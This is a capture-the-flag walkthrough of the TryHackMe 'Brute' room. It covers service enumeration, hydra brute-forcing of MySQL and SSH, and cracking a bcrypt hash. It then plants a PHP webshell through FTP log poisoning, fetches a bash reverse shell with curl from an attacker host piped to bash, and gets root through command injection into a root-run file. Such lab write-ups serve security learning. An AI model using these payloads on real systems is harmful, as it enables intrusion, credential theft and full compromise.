



# Writeup of Brute from TryHackMe

Room link https://tryhackme.com/room/ettubrute

## Initial enumeration

Initial enumration starting with nmap scan

### NMAP


```bash
$ nmap -sC -sV -oA nmap/initial 10.10.244.151
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-24 15:01 EDT
Nmap scan report for 10.10.244.151
Host is up (0.054s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c7:72:14:64:24:3c:11:01:e9:50:73:0f:a4:8c:33:d6 (RSA)
|   256 0e:0e:07:a5:3c:32:09:ed:92:1b:68:84:f1:2f:cc:e1 (ECDSA)
|_  256 32:f1:d2:ec:ec:c1:ba:22:18:ec:02:f4:bc:74:c7:af (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
3306/tcp open  mysql   MySQL 8.0.28-0ubuntu0.20.04.3
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.28-0ubuntu0.20.04.3
|   Thread ID: 14
|   Capabilities flags: 65535
|   Some Capabilities: SwitchToSSLAfterHandshake, Speaks41ProtocolOld, SupportsLoadDataLocal, Support41Auth, LongPassword, SupportsTransactions, SupportsCompression, InteractiveClient, LongColumnFlag, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, ODBCClient, DontAllowDatabaseTableColumn, IgnoreSigpipes, FoundRows, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: \x1FOjX5Q?}7H\x06M
| C@_NCgi
|_  Auth Plugin Name: caching_sha2_password
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-10-19T04:00:09
|_Not valid after:  2031-10-17T04:00:09
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.00 seconds
```

### web enumeration Port 80

Web enumration shows a simple login page, wich doesn't seem to be vunable to sqlinjection. 



Then next some directory and file enumeration using feroxbuster

```bash
─$ feroxbuster -u http://10.10.244.151 -x php,bak,txt -w /usr/share/wordlists/dirb/big.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.244.151
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirb/big.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php, bak, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       34l       67w     1080c http://10.10.244.151/
403      GET        9l       28w      278c http://10.10.244.151/.htaccess
403      GET        9l       28w      278c http://10.10.244.151/.htpasswd
403      GET        9l       28w      278c http://10.10.244.151/.php
403      GET        9l       28w      278c http://10.10.244.151/.htaccess.php
403      GET        9l       28w      278c http://10.10.244.151/.htpasswd.php
403      GET        9l       28w      278c http://10.10.244.151/.htaccess.bak
403      GET        9l       28w      278c http://10.10.244.151/.htpasswd.bak
403      GET        9l       28w      278c http://10.10.244.151/.htaccess.txt
403      GET        9l       28w      278c http://10.10.244.151/.htpasswd.txt
200      GET        0l        0w        0c http://10.10.244.151/config.php
200      GET       34l       67w     1080c http://10.10.244.151/index.php
302      GET        0l        0w        0c http://10.10.244.151/logout.php => index.php
403      GET        9l       28w      278c http://10.10.244.151/server-status
302      GET        0l        0w        0c http://10.10.244.151/welcome.php => login.php
[####################] - 1m    163752/163752  0s      found:15      errors:0
[####################] - 1m     81876/81876   811/s   http://10.10.244.151
[####################] - 1m     81876/81876   810/s   http://10.10.244.151/
```

### SQL (MYSQL) PORT 3306

Not much information was gained from the web enumeration so continueing to work on the next port 3306 for SQL. Starting with running all nmap scripts starting with "mysql". Specific scripts can be choosen since this does take some time. 

```bash
$ nmap --script mysql* -p 3306 10.10.244.151
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-24 15:18 EDT
Stats: 0:03:09 elapsed; 0 hosts completed (1 up), 1 undergoing 

PORT     STATE SERVICE
3306/tcp open  mysql
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
| mysql-enum:
|   Valid usernames:
|     root:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
| mysql-info:
|   Protocol: 10
|   Version: 8.0.28-0ubuntu0.20.04.3
|   Thread ID: 88
|   Capabilities flags: 65535
|   Some Capabilities: ConnectWithDatabase, Speaks41ProtocolOld, SupportsTransactions, SupportsLoadDataLocal, ODBCClient, Support41Auth, SupportsCompression, IgnoreSigpipes, FoundRows, SwitchToSSLAfterHandshake, Speaks41ProtocolNew, InteractiveClient, LongColumnFlag, LongPassword, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: 8r\x16\\x122\x03>b>Z#\l1){Hs\x1E
|_  Auth Plugin Name: caching_sha2_password
| mysql-brute:
|   Accounts: No valid accounts found
|_  Statistics: Performed 50009 guesses in 381 seconds, average tps: 134.5

Nmap done: 1 IP address (1 host up) scanned in 381.63 seconds
```

From the above we do see some valid usernames which we can use to try and bruteforce passwords.


## Database Enumeration 

### Bruteforcing password for mysql

To bruteforce the password a list we valid names i create from mysql enumration via the nmap output

```bash
$ cat names.txt
root
netadmin
user
web
guest
sysadmin
administrator
webadmin
admin
test
```
Starting Hydra 

```bash
$ hydra -L names.txt -P /usr/share/wordlists/rockyou.txt 10.10.244.151 mysql
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-24 15:33:58
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 143443990 login tries (l:10/p:14344399), ~35860998 tries per task
[DATA] attacking mysql://10.10.244.151:3306/
[3306][mysql] host: 10.10.244.151   login: root   password: rockyou
[ERROR] Host '10.11.18.173' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'
```

With the password enumeartion of the database can start

### Datbase enumeration

Starting with logging in 

```bash
$ mysql -h 10.10.244.151 -u root -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 50555
Server version: 8.0.28-0ubuntu0.20.04.3 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

Databases

```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| website            |
+--------------------+
5 rows in set (0.067 sec)
```

website databse has one coloumn users

```bash
MySQL [(none)]> use website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [website]> show tables;
+-------------------+
| Tables_in_website |
+-------------------+
| users             |
+-------------------+
1 row in set (0.058 sec)
```

and in that table the is one row exactly

```bash
MySQL [website]> select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | Adrian   | $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we | 2021-10-20 02:43:42 |
+----+----------+--------------------------------------------------------------+---------------------+
1 row in set (0.044 sec)
```


So starting we saving the hash value in a file

```bash
─$ cat adrian.hash
$2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we
```

Next running hashcat with mode 3200 bcrypt

```bash
$ hashcat -a0 -m 3200  adrian.hash  /usr/share/wordlists/rockyou.txt
hashcat (v6.2.5) starting

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8650U CPU @ 1.90GHz, 2917/5899 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Initializing backend runtime for device #1. Please be patient...
Host memory required for this attack: 0 MB


Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we:tigger

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSY...SKn4we
Time.Started.....: Wed Aug 24 15:50:10 2022 (3 secs)
Time.Estimated...: Wed Aug 24 15:50:13 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       13 H/s (5.28ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 28/14344385 (0.00%)
Rejected.........: 0/28 (0.00%)
Restore.Point....: 24/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: tigger -> password1
Hardware.Mon.#1..: Util: 75%

Started: Wed Aug 24 15:48:05 2022
Stopped: Wed Aug 24 15:50:16 2022
```

With the password for the website it is no possible to successfull authenticate

with the user Adrian:tigger


## Web exploit Port 80

The "view log" shows ftp logins and specially login names is interresting and could be used to do log poisoning.




To test this theory, we try to login with a simple php command as username on the ftp server. 

```bash
─$ ftp 10.10.244.151
Connected to 10.10.244.151.
220 (vsFTPd 3.0.3)
Name (10.10.244.151:kali): <?php system('whoami'); ?>
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
ftp>
```

viewing the source of the log page as Adrian shows we are running as www-data


Since not a lot information isn't know about the system i like to create a simple webshell 

so logging in with 

```bash
─$ ftp 10.10.244.151
Connected to 10.10.244.151.
220 (vsFTPd 3.0.3)
Name (10.10.244.151:kali): <?php system($_REQUEST['cmd']); ?>
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
ftp>
```
we can navigation to the url http://10.10.244.151/welcome.php?cmd=id and press log and a output line 'uid=33(www-data) gid=33(www-data) groups=33(www-data)' is visible meaing we have a very simple and working webshell.


### Inital access

Starting by creating a simple shell

```bash
$ cat shell.sh
bash -i >& /dev/tcp/ATTACKER-IP/9001 0>&1
```

hosting this script on a python server

```bash
python3 -m http.server 80
```
starting a netcat listner on port 9001

next navigating to http://10.10.244.151/welcome.php?cmd=curl+http://ATTACKER-IP/shell.sh+|+bash

after pressing "log" we get a a connection back

```bash
$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.11.18.173] from (UNKNOWN) [10.10.244.151] 57054
bash: cannot set terminal process group (815): Inappropriate ioctl for device
bash: no job control in this shell
www-data@brute:/var/www/html$
```


### User access Adrian
After a lot of enumeration one file which evryone has read access to is ".reminder" in the home folder of the Adrian user

```bash
www-data@brute:/home/adrian$ cat .reminder
Rules:
best of 64
+ exclamation

ettubrute
```

Which could be a reference to  creating a customer word list using hashcat and bestof64 rules file with the baseword
'ettubrute' and 'ettubrute!' with a exclamation mark not to rule out the note "+ exclamation

```bash
$ hashcat  basewords.txt -r /usr/share/hashcat/rules/best64.rule --stdout > adrian-wordlist.txt
```

Next the custom wordlist can used with hydra to brutefor the ssh login (Do tak some time)

```bash
$ hydra -l adrian -P adrian-wordlist.txt 10.10.244.151 ssh 
....
....
....
[ATTEMPT] target 10.10.244.151 - login "adrian" - pass "3ttubrut3!" - 123 of 158 [child 10] (0/4)
[22][ssh] host: 10.10.244.151   login: adrian   password: theettubrute!
1 of 1 target successfully completed, 1 valid password found
```

now we can ssh in as  andrian

```bash
$ ssh adrian@10.10.244.151
```

## Privilege escalation to root

in the home folder of adrian there is a file "punch_in" a note to this file seen in .notes in the ft, which shows that each line in this file is being parse and the script is being runned by root so by modifying this file we can create a "root bash" by adding the two lines

```bash
cat punch_in
`cp /bin/bash /home/adrian/bash`
`chmod +s /home/adrian/bash`
Punched in at 20:58
```

now wainting for a new minutes to pass creating a root bash in home folder of adrian. Access to root can be gained now 

```bash
adrian@brute:~$ ./bash -p
bash-5.0# whoami
root
bash-5.0#
```